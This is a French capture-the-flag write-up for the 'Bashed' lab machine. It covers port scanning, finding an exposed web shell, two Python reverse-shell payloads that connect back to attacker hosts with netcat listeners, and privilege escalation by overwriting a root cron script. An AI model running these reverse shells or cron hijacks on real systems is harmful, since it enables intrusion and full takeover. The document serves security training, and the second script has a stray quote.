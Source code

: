 # Bashed [Linux] Easy

# —1. Enumeration —

## Nmap

`nmap -sS -sV -A 10.10.10.68`

On trouve que un serveur web sur le port 80

Le site est un blog le mec parle de son projet Github qui est un terminal Linux sur web qui s’appelle phpbash.php

## Dirbuster

On trouve le script dans : /dev/phpbash.php

![Untitled](Bashed%20%5BLinux%5D%20Easy%20c118f6f39e9a4c44ad88ada3ff759687/Untitled.png)

On peux aller dans `/home/arrexel` et obtenir le premier flag.

# — 2. Exploit Vulnerabilities —

Nous avons un shell ou nous avons des accès utilisateurs j’ai donc pris un shell sur [payloadallthing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) : 

```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

`nc -lvnp 4242`

Shell !

# — 3. Privilege Escalation —

```python
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Avec sudo -l on trouve un permission pour la commande scriptmanager

On peux passer de l’utilisateur arrexel à scriptmanager avec cette commande :

`sudo -u scriptmanager bash -i`

On est maintenant script manager et on peux accéder à de nouveau dossier comme /script à la racine.

Dans /script on peux essayer d’avoir des info des fichier avec `ls -al` et on peux voir que le test.txt à été changé il y a une minutes en regardant le [test.py](http://test.py) on vois qu’il change le test.txt il faut deviner qu’il y a un cronjob qui exécute toutes les minutes le test.py on va donc le change pour ce script et le télécharger depuis la machine avec la commande `wget [LHOST:LPORT]/test.py`

Le script :

```python
import socket
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",4241))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")'
```

On met un listener avec `nc -lvnp 4241` et dans 1 minutes max on obtient une connexion root puisque le cronjob été exécuter en tant que root! Si ça ne marche pas essayer de mettre `chmod +x`